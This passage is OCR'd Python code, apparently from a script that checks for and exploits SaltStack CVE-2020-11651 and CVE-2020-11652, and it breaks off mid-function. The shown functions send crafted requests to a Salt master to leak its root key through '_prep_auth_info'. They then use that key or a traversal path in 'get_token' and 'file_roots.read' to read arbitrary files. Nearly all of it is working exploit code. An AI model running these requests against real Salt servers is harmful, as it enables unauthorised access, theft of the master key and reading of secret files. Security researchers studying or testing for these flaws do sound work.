 ```python
  else:
    print("ONLINE")

def check_CVE_2020_11651(channel):
  print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
  sys.stdout.flush()

  try:
    rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
  except:
    print('ERROR')
    return None
  else:
    pass
  finally:
    if rets:
      print('YES')
      root_key = rets[2]['root']
      return root_key

  print('NO')
  return None

def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'cmd': 'get_token',
    'arg': [],
    'token': top_secret_file_path,
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("YES")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    print("NO")
  
def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.read',
    'path': top_secret_file_path,
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
```